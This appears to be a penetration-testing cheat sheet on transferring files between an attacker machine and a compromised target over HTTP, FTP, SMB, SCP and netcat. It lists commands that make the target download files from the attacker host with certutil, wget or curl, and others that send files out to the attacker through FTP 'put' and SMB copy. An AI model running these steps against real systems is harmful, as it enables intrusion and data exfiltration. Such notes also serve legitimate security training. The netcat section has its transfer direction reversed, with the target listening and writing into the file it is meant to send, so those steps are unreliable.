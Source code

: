 # Transfert file between target and attacking machines

## HTTP

### From attack machine to Target

#### Attacking machine

- In kali we can use python `python -m http.server 80`

#### Target machine

- On a win target machine you can access it directly with the browser: `http://IP-ATTACKING-MACHINE/FILE-TO-GET` or you can use certutil.exe `certutil.exe -urlcache http://IP-ATTACKING-MACHINE/FILE-TO-GET file-to-get`
- In a linux target machine you can use `wget http://IP-ATTACKING-MACHINE/FILE-TO-GET` or curl `curl -o FILE-TO-GET http://IP-ATTACKING-MACHINE/FILE-TO-GET`

## FTP

### From attack machine to target

#### Attacking machine

- `python3 -m pyftpdlib -p 21 --write`

####  Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `get filename` to get the file

### From Target to attack

#### Attacking machine

- `python3 -m pyftpdlib -p 21 --write`

####  Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `put filename` to send the file

## SMB

### From Target to attack machine

#### Attacking machine

- In kali we can use Impacket `python3 smbserver.py -smb2support sharename /path/folder`

#### Target machine

- In a win victim machine we just need to copy the file to the attacking machine: `copy  FiletoDownload \\IP-OFF-ATTACKING-MACHINE\SHARENAME`

## Metasploit

### From attack machine to Target

There is an upload and download feature

## SSH (creds needed)

### From attack machine to Target

- In your kali or any linux `scp FILE-TO-SEND user@ip:/path/to/folder`

## Netcat

### From Target to attack machine

#### Target machine

- `nc -lvp PORT-NUMBER > FILE-TO-SEND

#### Attacking machine

- `nc VICTIM-IP PORT-NUMBER -w 3 < FILE` note: -w is for the time out in seconds


## Resources

{% embed url="https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/" %} Transfer files (Post explotation) – CheatSheet - PABLO PLAZA MARTÍNEZ {% endembed %}
